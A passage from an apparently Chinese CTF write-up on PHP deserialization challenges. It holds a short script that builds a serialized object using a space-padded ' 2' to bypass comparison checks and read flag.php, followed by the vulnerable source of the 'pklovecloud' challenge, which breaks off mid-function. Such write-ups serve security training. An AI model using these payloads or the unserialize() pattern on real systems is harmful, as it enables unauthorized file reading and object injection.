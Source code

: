 ```php
```



题解

```php
#!/usr/bin/php
<?php

class FileHandler {

    public $op=" 2";
    public $filename="flag.php";
    public $content="";

}
	$a = new FileHandler;
	echo serialize($a);
?>
```

重点 " 2"绕过=== 和 ==





### pklovecloud

2021-第五空间智能安全大赛-Web-pklovecloud

题目

```php
 <?php  
include 'flag.php';
class pkshow 
{  
    function echo_name()     
    {          
        return "Pk very safe^.^";      
    }  
} 

class acp 
{   
    protected $cinder;  
    public $neutron;
    public $nova;
    function __construct() 
    {      
        $this->cinder = new pkshow;
    }  
    function __toString()      
    {          
        if (isset($this->cinder))  
            return $this->cinder->echo_name();      
    }  
}  

class ace
{    
    public $filename;     
    public $openstack;
    public $docker; 
    function echo_name()      
    {   
        $this->openstack = unserialize($this->docker);
```
